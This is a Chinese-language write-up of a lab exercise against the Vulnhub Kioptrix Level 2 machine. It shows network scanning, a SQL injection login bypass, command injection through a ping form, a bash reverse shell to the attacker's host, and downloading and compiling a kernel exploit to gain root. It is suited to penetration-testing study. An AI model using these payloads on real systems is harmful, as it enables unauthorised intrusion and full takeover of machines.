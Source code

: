 # Vulnhub Kioptix Level 2


# Vulnhub-kioptix-Level-1.1(#2)

### 基本信息

kali:192.168.110.10

靶机:192.168.110.17

### 一、信息收集

```
└─# arp-scan --interface=eth1 -l
Interface: eth1, type: EN10MB, MAC: 00:50:56:a3:f5:91, IPv4: 192.168.110.10
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.110.1   00:50:56:a3:2e:39       VMware, Inc.
192.168.110.17  00:0c:29:de:9d:0f       VMware, Inc.
192.168.110.18  00:50:56:a3:de:c6       VMware, Inc.
192.168.110.19  00:50:56:a3:bd:59       VMware, Inc.

82 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.9.7: 256 hosts scanned in 3.127 seconds (81.87 hosts/sec). 4 responded
```

```
└─# nmap -sV 192.168.110.17 -p1-65535
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-29 16:37 CST
Nmap scan report for 192.168.110.17
Host is up (0.00023s latency).
Not shown: 65528 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
111/tcp  open  rpcbind  2 (RPC #100000)
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
631/tcp  open  ipp      CUPS 1.1
645/tcp  open  status   1 (RPC #100024)
3306/tcp open  mysql    MySQL (unauthorized)
MAC Address: 00:0C:29:DE:9D:0F (VMware)
```

### 二、漏洞利用

网页登录框试下万能码`' or 1='1`

登录进去

`127.0.0.1;whoami`

```
127.0.0.1;whoami
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=0 ttl=64 time=0.016 ms
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.027 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.028 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 1999ms
rtt min/avg/max/mdev = 0.016/0.023/0.028/0.007 ms, pipe 2
apache
```

`127.0.0.1;bash -i >& /dev/tcp/192.168.110.10/4444 0>&1`

`nc -nvlp 4444`

```
bash-3.00$ uname -a
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux
```

```
searchsploit privilege | grep centos -i
```



```
python3 -m http.server 6666
```

```
wget http://192.168.110.10:6666/9542.c
```

```
gcc -o 9542 9542.c
```

```
./9542
```

```
sh-3.00# whoami
root
```


